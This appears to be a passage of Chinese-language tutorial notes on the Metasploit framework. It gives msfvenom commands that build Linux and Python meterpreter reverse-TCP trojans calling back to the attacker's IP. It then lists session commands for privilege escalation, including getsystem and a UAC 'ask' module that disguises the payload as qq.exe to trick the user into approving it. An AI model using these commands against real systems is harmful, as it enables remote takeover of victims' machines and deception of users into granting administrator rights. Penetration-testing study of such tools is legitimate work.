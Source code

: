 
生成linux木马：

```
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=自己ip LPORT=4444 -f elf -o payload.elf
```



生成python木马：

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=自己ip LPORT=4444 -f raw -o payload.py
```



## meterpreter操作：

```
sessions -i 1   # 进入1号主机控制端
```

### meterpreter操作：

#### **UAC提权**：

```
上述操作，生成木马并在msf里建立木马控制端，exploit
background   # 暂时不操作，把木马放到后台
back      # 后退一格

sessions -i 1   # 进入1号主机控制端

getuid   # 查看当前用户权限
getsystem   # 直接提权
（有风险，有可能会报错）

# 考虑使用ask模块去提权
background    # 先把木马放到后台
use exploit/windows/local/ask   # 加载ask模块
info    # 查看漏洞信息
set SESSION 1    # 使用漏洞在1号木马控制的目标上
set FILENAME qq.exe    # 伪装成qq
exploit
# 会在用户桌面上弹出一个允许qq启动，用户选择yes，成功

# 如果攻击成功，会给你一个新的session号
# 进入新的session号
getuid
getsystem
```

UAC权限

![image-20220109231015448](09 MSF框架以及使用.assets/image-20220109231015448.png)
